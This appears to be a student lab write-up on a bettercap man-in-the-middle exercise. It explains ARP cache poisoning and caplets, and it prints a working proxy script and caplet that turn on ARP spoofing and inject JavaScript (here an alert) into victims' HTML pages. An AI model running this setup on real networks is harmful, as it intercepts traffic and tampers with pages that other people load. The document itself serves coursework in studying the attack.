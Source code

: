 # Man in the Middle - bettercap
## Security questions
### explain why bettercap was able to capture the ftp credentials
Bettercap makes a ARP Spoofing Attack, also known as ARP Cache Poisoning
It sends ARP responses for Attackers MAC and the targets IP. Now the traffic is send to attackers ethernet card and go througth the MITM Proxy.

![](Win10_ARP_Posoning.png)
![](Linux_MAC.png)

### do a research for bettercap and find out what caplets are
These are addional scripts/capabilities for bettercap. This can be used to automate attacks, like a Metasploit .rc file.
### read these examples: https://www.cyberpunk.rsbettercap-usage-examples-overview-custom-setup-caplets
### please add a screenshot of your MitM attack (proof your setup)

```javascript
#inject.js
function onLoad() {
    log("BeefInject loaded.");
}



function onResponse(req, res) {
    if(res.ContentType.indexOf('text/html') == 0) {
        var body = res.ReadBody();
        if(body.indexOf('</head>') != -1) {
            log("BeefInject loaded.");
            res.Body = body.replace(
                '</head>',
                '<script type="text/javascript">alert("Gotcha")</script></head>'
            );
        }
    }
}
```
inject.cap
```bash
set http.proxy.script jsinject.js
set https.proxy.script jsinject.js
http.proxy on
https.proxy on
sleep 1
arp.spoof on
```

Start with
```bash
bettercap -iface eth0 -caplet jsinject.cap
```
Windows 10 verification
![](Win10_JS_Inject.png)

Linux Verification
![](Linux_Inject.png)